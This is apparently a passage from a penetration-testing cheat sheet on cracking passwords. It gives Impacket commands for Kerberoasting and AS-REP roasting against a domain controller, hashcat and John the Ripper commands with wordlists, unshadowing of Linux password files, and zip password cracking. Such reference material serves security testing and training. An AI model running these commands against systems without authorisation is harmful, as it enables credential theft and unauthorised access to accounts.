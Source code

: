 ### Cracking KRB5TGS Hashes - "Kerberoasting"  <a id="cracking-hashes-from-kerboroasting-krb-5-tgs"></a>

A service principal name \(SPN\) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.  These SPNs cat be collected by using a username list and Impacket's example scripts. After gathering a list of valid usernames that have the property ‘Do not require Kerberos pre-authentication’ set \(UF\_DONT\_REQUIRE\_PREAUTH\), you can get the SPN hash for cracking, replay, or creating of Kerberos tickets using the example below.

```bash
python GetNPUsers.py -dc-ip $DC_IP $DOMAIN/ -usersfile $users_list -format hashcat -outputfile $out_hash_list
```



```bash
python GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN/$valid_user
```

Hashcat supports multiple versions of the KRB5TGS hash which can easily be identified by the number between the dollar signs in the hash itself.

* 13100 - Type 23 - $krb5tgs$23$
* 19600 - Type 17 - $krb5tgs$17$
* 19700 - Type 18 - $krb5tgs$18$

KRB5TGS Type 23 - Crackstation humans only word list with OneRuleToRuleThemAll mutations rule list.

```text
hashcat64 -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O d:\krb5tgs.hash d:\WORDLISTS\realhuman_phill.txt -r OneRuleToRuleThemAll.rule	
```

### To crack Linux hashes with John you must first `unshadow` them <a id="to-crack-linux-hashes-you-must-first-unshadow-them"></a>

```bash
unshadow $passwd $shadow > unshadowed.txt
```

### Crack a zip password <a id="crack-a-zip-password"></a>

`zip2john Zipfile.zip | cut -d ':' -f 2 > hashes.txt` `hashcat -a 0 -m 13600 hashes.txt /usr/share/wordlists/rockyou.txt`

Hashcat appears to have issues with some zip hash formats generated from zip2john. You can fix this by editing the zip hash contents to align with the example zip hash format found on the hash cat example page: `$zip2$*0*3*0*b5d2b7bf57ad5e86a55c400509c672bd*d218*0**ca3d736d03a34165cfa9*$/zip2$`

John seems to accept a wider range of zip formats for cracking.

John the ripper: `john --wordlist=/usr/share/wordlists/rockyou.txt <hash_file>`

[Jumbo John](https://github.com/magnumripper/JohnTheRipper) = Better than original `john`
